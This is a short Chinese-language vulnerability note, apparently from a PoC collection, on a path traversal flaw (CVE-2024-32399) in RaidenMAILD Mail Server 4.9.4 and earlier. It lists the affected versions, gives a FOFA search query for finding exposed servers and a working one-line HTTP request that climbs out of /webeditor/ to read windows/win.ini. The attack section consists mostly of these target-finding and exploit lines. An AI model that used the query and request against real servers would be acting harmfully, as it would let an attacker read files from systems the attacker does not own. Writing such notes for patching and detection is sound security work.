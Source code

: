 # aidenMAILD 邮件服务器 路径遍历漏洞(CVE-2024-32399)

## 1.漏洞描述

RaidenMAILD是一款强大的电子邮件服务器，该软件可以在相当短的时间内将它架设起来邮件服务器，操作简单，功能齐全，稳定运作。适用于全 Windows 平台的电子邮件伺服器。RaidenMAILD Mail Server 4.9.4及之前版本中的目录遍历漏洞使远程攻击者能够通过/webeditor/组件获取敏感信息。

## 2.影响版本

RaidenMAILD Mail Server <= 4.9.4

## 3.搜索语法

```java
 fofa：body="RaidenMAILD"
```

## 4.漏洞复现

POC

```java
GET /webeditor/../../../windows/win.ini HTTP/1.1
```

![image-20240615171826006](D:\py\POC\aidenMAILD 邮件服务器 路径遍历漏洞(CVE-2024-32399)\image-20240615171826006.png)